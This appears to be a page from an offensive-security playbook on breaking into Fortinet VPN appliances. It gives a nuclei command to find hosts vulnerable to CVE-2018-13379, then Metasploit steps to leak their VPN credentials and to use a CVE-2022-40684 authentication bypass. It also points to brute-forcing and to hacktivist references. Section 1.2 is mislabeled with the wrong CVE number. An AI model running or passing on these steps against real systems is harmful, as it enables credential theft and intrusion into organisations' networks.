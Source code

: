 # Fortinet

## 01 - CVE

### 1.1 - CVE-2018-13379

To find targets

Use nuclei to scan for vulnerable devices and remove false positives.

```
$ nuclei -l target_ips.txt -t ~/nuclei-templates -id CVE-2018-13379 -o fortinet-vulnerable-applances-output.txt
```

Then exploit it with `metasploit-framework` auxiliary module.

```
msf > use auxiliary/gather/fortios_vpnssl_traversal_creds_leak

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rhosts file:fortinet-vulnerable-applances-output.txt

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rport 10443

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > run
```

### 1.2 - CVE-2018-13379

```
msf > use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rhosts file:10443_ips.txt

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rport 10443

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > check
```

## 02 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/VPN/VPN Appliances/Fortinet|section]] for bruteforcing Fortinet VPN appliance.

---
## References

- [[VPN Appliances|Google Dork: VPN Appliances]]

- [7Elements: Fortigate](https://github.com/7Elements/Fortigate)

- [Enlace Hacktivista: Fortinet SSL VPN Path Traversal](https://enlacehacktivista.org/index.php?title=Fortinet_SSL_VPN_Path_Traversal)

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)
